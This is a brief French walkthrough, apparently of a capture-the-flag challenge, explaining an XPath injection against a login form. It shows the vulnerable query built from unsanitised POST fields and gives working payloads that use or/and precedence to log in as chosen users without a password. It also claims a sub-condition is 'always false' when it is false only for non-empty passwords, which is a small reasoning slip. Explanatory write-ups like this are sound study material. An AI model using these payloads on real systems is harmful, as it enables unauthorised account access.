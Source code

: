 L’authentification basique réalisée ici est de la forme suivante :
```
//user[username='" .$_POST['username']."' and password='".$_POST['password']."']
```
Un simple
```
username=a
password=' or '1'='1
```
nous donne une connexion en tant que Steve. Puisque nous voulons être connecté en tant que John, on veut omettre la vérification du password.
On procède alors en utilisant les priorités entre les opérateurs or et and. Similairement aux mathématiques :
```
 Maths : a + b * c <=> a + (b * c)
 XPath Logic : a or b and c <=> a or (b and c)
```
Ainsi il suffit de créer la requête suivante :
```
//user[username='John' or '1'='1' and password='']
```
La condition ’1’=’1’ and password=’’ valant toujours false, la condition globale ne serait vraie que lorsque l’username sera John.

Donc il suffit d’entrer ces valeurs dans le formulaire :
```
username=John' or '1'='1
password=
```
